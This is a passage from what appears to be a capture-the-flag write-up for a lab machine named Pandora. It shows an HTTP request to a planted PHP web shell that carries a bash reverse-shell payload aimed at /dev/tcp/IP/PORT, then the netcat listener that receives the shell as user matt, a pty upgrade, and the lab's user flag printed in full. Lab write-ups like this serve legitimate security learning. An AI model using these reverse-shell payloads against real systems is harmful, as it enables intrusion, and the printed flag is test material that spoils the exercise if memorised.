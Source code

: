 Let get a reverse shell with this request

```http
GET /pandora_console/extensions/kryptonz.php?k=/bin/bash+-c+"bash+-i+>%26+/dev/tcp/IP/PORT+0>%261" HTTP/1.1
Host: localhost
Cookie: PHPSESSID=2e6n5vl4464up7shn0gav0n9to
Connection: close

```

Now we have a user shell as `matt` user:
```bash
└──╼ $ nc -lvnp 10001
Listening on 0.0.0.0 10001
Connection received on 10.10.11.136 33984
bash: cannot set terminal process group (965): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/extensions$ id 
id       
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/var/www/pandora/pandora_console/extensions$ 
```

```bash
matt@pandora:/var/www/pandora/pandora_console/extensions$ which python3
which python3
/usr/bin/python3
matt@pandora:/var/www/pandora/pandora_console/extensions$ python3 -c "import pty; pty.spawn('/bin/bash')"
<ns$ python3 -c "import pty; pty.spawn('/bin/bash')"      
matt@pandora:/var/www/pandora/pandora_console/extensions$ cd ~
cd ~
matt@pandora:/home/matt$ ls -la
ls -la
total 36
drwxr-xr-x 4 matt matt 4096 Apr  7 19:21 .
drwxr-xr-x 4 root root 4096 Dec  7 14:32 ..
lrwxrwxrwx 1 matt matt    9 Jun 11  2021 .bash_history -> /dev/null
-rw-r--r-- 1 matt matt  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 matt matt 3771 Feb 25  2020 .bashrc
drwx------ 2 matt matt 4096 Apr  7 19:20 .cache
-rw-r--r-- 1 matt matt  807 Feb 25  2020 .profile
drwx------ 2 matt matt 4096 Apr  7 19:19 .ssh
-rwxrwxr-x 1 matt matt   10 Apr  7 19:21 tar
-rw-r----- 1 root matt   33 Apr  7 19:04 user.txt
matt@pandora:/home/matt$ cat user.txt
cat user.txt
7549779fdbab4b1875ba581548ebd9cc
matt@pandora:/home/matt$ 
```
And here is the user flag finally:
```bash
matt@pandora:/home/matt$ cat user.txt
7549************************d9cc
matt@pandora:/home/matt$ 
```
